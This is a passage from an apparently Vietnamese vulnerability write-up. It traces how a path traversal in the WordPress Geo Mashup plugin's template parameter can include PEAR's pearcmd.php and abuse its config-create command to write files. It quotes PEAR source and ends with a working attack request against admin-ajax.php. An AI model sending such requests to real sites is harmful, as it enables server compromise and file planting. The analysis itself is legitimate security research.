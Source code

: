 ```php {title="/usr/local/lib/php/PEAR/Command/Config.php" hl_lines=[38,39,40,41]}

    if (file_exists($file) && is_file($file) && !is_writeable($file)) {
        return $this->raiseError("no write access to $file!");
    }

    $fp = @fopen($file, "w");
    if (!$fp) {
        return $this->raiseError("PEAR_Config::writeConfigFile fopen('$file','w') failed ($php_errormsg)");
    }

    $contents = "#PEAR_Config 0.9\n" . serialize($data);
    if (!@fwrite($fp, $contents)) {
        return $this->raiseError("PEAR_Config::writeConfigFile: fwrite failed ($php_errormsg)");
    }
    return true;
}
```

Đây là hàm quyết định việc ghi config file với `serialize($data)` để chuyển cấu hình thành chuỗi có thể lưu trữ.

Trở lại file `pearcmd.php`, các param được tạo và gán vào `$params`.

```php
list($tmpopt, $params) = $tmp;
```

![params](params.png "Giá trị $params trong debugger")

Cuối cùng, `$cmd` được thực thi bằng `$cmd->run()`

```php
$ok = $cmd->run($command, $opts, $params);
```

## Flow
1. Gửi GET request:

```http
GET /wp-admin/admin-ajax.php?action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&+config-create+/test_root_path+test_filename.php
```

2. Web `include` `/usr/local/lib/php/pearcmd.php`.

3. PHP (register_argc_argv=On) build `$_SERVER['argv']` từ query → `['action=geo_mashup_query&object_ids=2&template=../../../../../../../usr/local/lib/php/pearcmd&','config-create','/test_root_path','test_filename.php']`.
